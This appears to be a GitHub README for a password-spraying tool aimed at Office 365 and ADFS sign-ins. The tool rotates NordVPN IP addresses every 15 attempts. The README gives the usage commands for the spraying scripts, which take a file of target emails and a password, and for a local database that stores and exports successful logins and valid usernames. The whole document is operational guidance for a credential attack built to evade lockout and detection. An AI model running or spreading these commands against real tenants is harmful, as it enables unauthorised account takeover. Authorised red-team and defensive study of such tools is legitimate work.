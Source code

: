 # Password spraying O365/ADFS with IP rotation (NordVPN)
Password spraying O365/ADFS with IP rotation (nordvpn) every 15 attempts

## Prerequisites

* Nordvpn client (tested on debian)
* Connect to nordvpn
```bash
sudo nordvpn login
```
* Python packages
```bash
pip3 install -r requirements.txt
```
## Managed tenant
### Usage
```bash
sudo python3 MSOLSpray.py -U '<path/to/mail/file>' -s 2 -p '<pass>' --vpn
```

## ADFS
### Usage
```bash
sudo python3 ADFSpray.py -U '<path/to/mail/file>' -r 1 3 -p '<pass>' -t https://<adfs.tenant.com> adfs -v --vpn
```


## Retrieve data in local DB
1. Initialiser/créer la DB (si pas déjà faite)
```bash
sudo python3 db_admin.py --init
```

2. Lister les 20 derniers "success"
```bash
sudo python3 db_admin.py --list-success --limit 20
```

3. Lister les "fail"
```bash
sudo python3 db_admin.py --list-fail
```

4. Affiche les utilisateurs qui existent (MSOL uniquement)
```bash
sudo python3 db_admin.py --print-valid-users
```

5. Requête filtrée :
```bash
sudo python3 db_admin.py --query --subject alice@example.com --status success --limit 10
```

6. Export CSV :
```bash
sudo python3 db_admin.py --export out.csv --limit 500
```

7 Purge des événements de plus de 60 jours :
```bash
sudo python3 db_admin.py --purge 60
```